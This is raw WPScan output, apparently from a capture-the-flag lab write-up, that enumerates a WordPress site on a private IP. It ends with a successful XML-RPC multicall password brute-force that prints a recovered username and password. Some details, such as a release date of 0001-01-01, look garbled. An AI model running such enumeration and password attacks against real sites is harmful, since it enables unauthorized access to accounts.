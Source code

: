 ```

[+] XML-RPC seems to be enabled: http://10.0.0.48/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.0.0.48/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.0.0.48/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.30 identified (Outdated, released on 0001-01-01).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.0.0.48/daf29fc.html, Match: '-release.min.js?ver=4.3.30'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.0.0.48/daf29fc.html, Match: 'WordPress 4.3.30'

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.0.0.48/wp-content/themes/twentyfifteen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://10.0.0.48/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.3
 | Style URL: http://10.0.0.48/wp-content/themes/twentyfifteen/style.css?ver=4.3.30
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.0.0.48/wp-content/themes/twentyfifteen/style.css?ver=4.3.30, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / ER28-0652                                                                                                                                                                                                              
```